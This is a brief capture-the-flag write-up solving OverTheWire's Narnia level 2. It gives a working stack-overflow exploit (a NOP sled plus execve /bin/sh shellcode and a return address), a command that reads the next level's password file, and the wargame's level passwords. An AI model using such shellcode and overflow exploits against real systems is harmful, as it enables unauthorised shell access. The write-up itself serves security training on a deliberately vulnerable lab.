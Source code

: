 ### Narnia Level 2

[narnia2](http://overthewire.org/wargames/narnia/narnia2.html)

**Username**: *narnia2*

**Password**: *nairiepecu*

#### Solution

* http://shell-storm.org/shellcode/files/shellcode-811.php

```bash
./narnia2 $(python -c 'print "\x90"*112 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x70\xd8\xff\xff"')
cat /etc/narnia_pass/narnia3
```

#### Credentials for Level 3

**Username**: *narnia3*

**Password**: *vaequeezee*
